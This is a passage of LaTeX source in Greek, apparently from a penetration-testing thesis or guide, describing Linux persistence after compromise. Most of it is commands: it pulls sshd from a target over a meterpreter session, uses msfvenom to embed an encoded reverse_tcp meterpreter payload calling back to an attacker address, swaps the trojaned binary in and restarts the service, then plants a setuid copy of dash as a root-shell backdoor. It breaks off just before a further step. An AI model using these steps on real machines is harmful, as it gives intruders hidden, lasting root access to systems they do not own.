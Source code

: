 \documentclass[12pt]{report}
\begin{document}
Για να το επιτύχουμε αυτό κατεβάζουμε από το σύστημα στόχο το εκτελέσιμο, μέσω του \textlatin{reverse meterpreter shell} και το τροποποιούμε ώστε να περιέχει το \textlatin{payload}. Στο παράδειγμα μας, αυτό γίνεται ως εξής:
\begin{scriptsize}
\begin{verbatim}
meterpreter > download /usr/sbin/sshd
\end{verbatim}
\end{scriptsize}
Σε ένα τοπικό \textlatin{shell} πληκτρολογούμε:
\begin{scriptsize}
\begin{verbatim}
root@kali# msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.232.1 LPORT=443 -x sshd -e x86/
shikata_ga_nai -i 4 -k -f elf -o sshd2
\end{verbatim}
\end{scriptsize}
Και έπειτα στο \textlatin{meterpreter shell}:
\begin{scriptsize}
\begin{verbatim}
meterpreter > upload sshd2
meterpreter > mv sshd2 /usr/sbin/sshd
meterpreter > systemctl restart sshd
\end{verbatim}
\end{scriptsize}

\paragraph{Χρησιμοποίηση Εκτελέσιμου με Δικαιώματα \textlatin{suid}}
Σε αυτή την περίπτωση αντιγράφουμε ένα υπάρχον εκτελέσιμο (συνήθως το \textlatin{/bin/bash}) στο \textlatin{PATH} και του δίνουμε δικαιώματα \textlatin{suid}. Έτσι μπορούμε να πάρουμε \textlatin{root shell} ακόμα και ως απλοί χρήστες.
\begin{scriptsize}
\begin{verbatim}
meterpreter > cp -a /bin/dash /bin/tash
meterpreter > chmod a+s /bin/tash
\end{verbatim}
\end{scriptsize}
Αυτή η διαδικασία δουλεύει καλύτερα αν υπάρχει και ένας χρήστης μας στο μηχάνημα, όπως παρακάτω:
\end{document}
